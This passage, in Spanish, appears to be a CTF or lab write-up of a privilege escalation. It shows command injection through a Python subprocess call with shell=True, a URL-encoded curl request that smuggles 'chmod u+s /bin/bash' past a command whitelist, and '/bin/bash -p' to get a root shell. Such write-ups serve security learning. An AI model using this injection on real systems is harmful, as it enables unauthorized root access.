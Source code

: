 ![image](https://github.com/user-attachments/assets/43d76a2c-4fb6-428e-b002-8a7648b5e3c3)

el problema llega porque solo es posible la ejecucion de los comandos `ls` y `whoami` pero tras detallar el codigo encuentro la vulnerabilidad 

![image](https://github.com/user-attachments/assets/2ee2731e-ba22-4877-aacc-ba18681b1b32)

El uso de `shell=True` en `subprocess` permite la inyeccion de comandos, ejemplo:

![image](https://github.com/user-attachments/assets/b91fe7a3-4547-4cf5-946d-eac4afe2c7fc)

solo que el comando despues del `;` se ejecuta como el user `skulloperator` pero esto lo soluciono `url-encodeando` el comando

![image](https://github.com/user-attachments/assets/4915aace-ade9-4c61-b6f4-171e526434b6)

ahora si lo ejecuta como `root` el segundo comando, ya para terminar la escalada, ejecuto lo siguiente:

```ruby
curl -H 'Authorization: Basic we_are_bones_513546516486484' http://127.0.0.1:8081?exec=ls;chmod u+s /bin/bash
```
el comando url-encodeado quedaria finalmente:

```ruby
curl -H "Authorization: Basic we_are_bones_513546516486484" http://localhost:8081?exec=%6c%73%3b%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68
```

![image](https://github.com/user-attachments/assets/de2e1c28-031f-43b4-94b2-91260a612962)

```ruby
/bin/bash -p
```
![image](https://github.com/user-attachments/assets/3971710c-a15c-40c8-9a74-5b7813be20d1)

### `ROOT`

![image](https://github.com/user-attachments/assets/dbb4b0c3-88a4-419d-b143-82c0332a2059)







